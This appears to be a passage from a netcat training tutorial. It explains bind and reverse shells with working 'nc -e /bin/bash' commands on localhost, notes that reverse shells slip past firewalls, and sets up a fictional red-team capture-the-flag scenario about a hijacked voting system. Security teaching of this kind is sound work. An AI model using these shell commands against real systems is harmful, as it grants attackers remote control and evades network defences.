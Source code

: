 Probrably the most abused/dangerous feature of netcat is the ability to attach a bind or a reverse shell to a port. A bind shell is possibly the easiest to understand at first, this is where we attach a shell (bash) to a port and then connect to it. Much like standing up a server and connecting a client to it.

We set up the listener with a bash shell

_terminal 1 victim_
```
nc -nvlp 1337 -e /bin/bash
```

and then connect to it via

_terminal 2 attacker_
```
nc -v 127.0.0.1 1337
```
note you can run commands from terminal 2, try some basic commands.

A bind shell is useful, but has some drawbacks as it is easy to detect and stop with ingress firewalls.
So how do we bypass this restriction? We make our connection look like egress traffic via a reverse shell.
This time we make the victim connect to a listener on the attacking machine and send its bash terminal over the pipe.  

this time we set a listener up on the attacker first

_terminal 2 attacker_
```
nc -nvlp 1337 
```

next we execute bash down our client connection to the kali machine

_terminal 1 victim_
```
nc -v 127.0.0.1 1337 -e /bin/bash
```

Because the victim initiated the connection, it looks like it is requesting access to a legitimate sevice on the attacker. when combined with encrypted tunnels this is a very powerful way to avoid network level security.

This ends the tutorial component of the Dojo, next try and use these tools to attack the CDX box below.

### The CDX machine
As the red team for hire we've been been tasked by Sequelios to determine how they've lost access to their new voting system on the eve of their election. Any attempts they make to revert are quickly undone by an unkown assailant and they have lost control of the system. The Sequelios officials suspect foul play and have hired us to assess the system for weakness and try to regain control of the system before democracy fails!

Can you use you new found skills to find the hacker's back door and make your way into the system?

### Some undocumented things to Try
